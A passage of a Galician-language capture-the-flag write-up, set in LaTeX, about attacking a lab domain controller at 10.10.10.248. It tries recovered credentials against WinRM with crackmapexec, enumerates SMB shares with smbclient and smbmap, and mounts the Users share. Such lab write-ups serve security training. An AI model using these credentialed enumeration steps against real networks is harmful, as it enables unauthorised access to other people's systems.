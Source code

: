 \documentclass[a4paper]{article}
\begin{document}
        \vspace{0.2cm}

Temos novas credenciais: \textbf{Ted.Graves:Mr.Teddy}
Agora coas novas credenciais, imos comprobar:
\begin{itemize}
\item winrm - crackmapexec, evil-winrm
\item smb - smbclient, smbmap, crackmapexec
\end{itemize}

\clearpage
        \begin{lstlisting}[language=Bash, caption=Acceso ao sistema: winrm, linewidth=17.8cm]
$ crackmapexec winrm 10.10.10.248 -u'Ted.Graves' -p'Mr.Teddy' 
SMB         10.10.10.248    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:template.htb)
HTTP        10.10.10.248    5985   DC               [*] http://10.10.10.248:5985/wsman
WINRM       10.10.10.248    5985   DC               [-] template.htb\Ted.Graves:Mr.Teddy
               
$ smbclient -U'template.htb/Ted.Graves%Mr.Teddy' -L  //10.10.10.248 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	IT              Disk      
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.248 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

$ smbmap -H 10.10.10.248 -u 'Ted.Graves' -p'Mr.Teddy'         
[+] IP: 10.10.10.248:445	Name: dc.template.htb                               
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	IT                                                	READ ONLY	
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
	Users                                             	READ ONLY	
                                                                                  
$ sudo mount -t cifs //10.10.10.248/Users /mnt -o username=Ted.Graves,password=Mr.Teddy,domain=template.htb\end{lstlisting}
\end{document}
